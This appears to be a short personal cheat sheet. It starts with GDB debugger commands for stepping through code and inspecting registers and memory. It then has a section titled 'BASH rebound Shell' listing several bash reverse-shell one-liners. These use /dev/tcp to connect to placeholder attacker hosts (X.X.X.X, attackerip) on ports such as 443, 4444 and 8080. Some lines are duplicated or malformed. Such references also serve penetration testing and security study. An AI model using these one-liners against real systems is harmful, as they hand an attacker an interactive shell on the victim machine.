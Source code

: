 #### GDB Debugger commonly used commands

    break *_start
    next
    step
    n
    s
    continue
    c

#### Data

    checking ‘REGISTERS’ and ‘MEMORY’

#### Display the register values: (Decimal,Binary,Hex)

    print /d –> Decimal
    print /t –> Binary
    print /x –> Hex
    O/P :
    (gdb) print /d $eax
    $17 = 13
    (gdb) print /t $eax
    $18 = 1101
    (gdb) print /x $eax
    $19 = 0xd
    (gdb)

#### Display the value of a specific memory address

    command : x/nyz (Examine)
    n –> Number of fields to display ==>
    y –> Format for output ==> c (character) , d (decimal) , x (Hexadecimal)
    z –> Size of field to be displayed ==> b (byte) , h (halfword), w (word 32 Bit)

#### BASH rebound Shell

    bash -i >& /dev/tcp/X.X.X.X/443 0>&1

    exec /bin/bash 0&0 2>&0
    exec /bin/bash 0&0 2>&0

    0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

    0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196

    exec 5<>/dev/tcp/attackerip/4444 cat <&5 | while read line; do $line 2>&5 >&5; done # or: while read line 0<&5; do $line 2>&5 >&5; done
    exec 5<>/dev/tcp/attackerip/4444

    cat <&5 | while read line; do $line 2>&5 >&5; done # or:
    while read line 0<&5; do $line 2>&5 >&5; done

    /bin/bash -i > /dev/tcp/attackerip/8080 0<&1 2>&1
    /bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
